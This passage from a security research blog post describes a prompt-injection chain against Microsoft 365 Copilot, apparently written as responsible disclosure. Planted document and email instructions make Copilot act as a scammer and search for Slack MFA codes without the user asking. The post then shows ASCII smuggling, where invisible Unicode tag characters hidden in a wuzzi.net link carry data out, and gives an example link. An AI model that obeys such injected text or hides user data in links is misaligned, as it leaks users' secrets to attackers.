The Word document contains instructions which trick Copilot to become a scammer, namely **Microsoft Defender for Copirate**. This means that the integrity of any retrieved data and the chat conversation in general cannot be guaranteed by Copilot.

That's why there are always these "AI-generated content may be incorrect" disclaimers in LLM applications. **That message is the mitigation vendors put in place for potential loss of integrity.**

Prompt injection does not have a fix currently, hence Copilot being vulnerable was no surprise.
However, what surprised me was the following...

## Automatic Tool Invocation (Request Forgery)

The prompt injection payload was able to tell Copilot to search for more emails and documents!

Look! Copilot searches for Slack MFA codes because an email it analyzed said so! 😈

[![Searching for Slack confirmation code](/blog/images/2024/copilot-looking-for-slack-confirmation-code-small.png)](/blog/images/2024/copilot-looking-for-slack-confirmation-code.png)

This means an attacker can bring other sensitive content, including any PII that Copilot has access to, into the chat context without the user's consent.

So far, so good. 

## Data Exfiltration Revisited

An attacker is now close to stealing sensitive information via such a prompt injection exploit. We have a payload that:
1. Takes control of Copilot and we can use that to
2. Invoke additional tools that bring more data into the chat context!

So, there is only one step left: **Data Exfiltration!**

Last year Bing Chat (now Copilot) [was vulnerable to zero-click image rendering](https://embracethered.com/blog/posts/2023/bing-chat-data-exfiltration-poc-and-fix/), which I responsibly disclosed to Microsoft and which got fixed. 

So that won't work anymore... What else?

## ASCII Smuggling via Hidden Unicode Tags

[ASCII Smuggling](https://embracethered.com/blog/posts/2024/hiding-and-finding-text-with-unicode-tags/) is a novel technique that uses special Unicode characters that mirror ASCII but are actually not visible in the user interface. 

This means that an attacker can have the LLM render, to the user, invisible data, and embed them within clickable hyperlinks. This technique basically stages the data for exfiltration!

If the user clicks the link, the data is sent to the third party server.

### An Example Link With Hidden Data 

To give a practical example, below link will send more data to wuzzi.net than obvious at first glance:

[https://wuzzi.net/󠁔󠁲󠁵󠁳󠁴󠁎󠁯󠁁󠁉](https://wuzzi.net/󠁔󠁲󠁵󠁳󠁴󠁎󠁯󠁁󠁉)
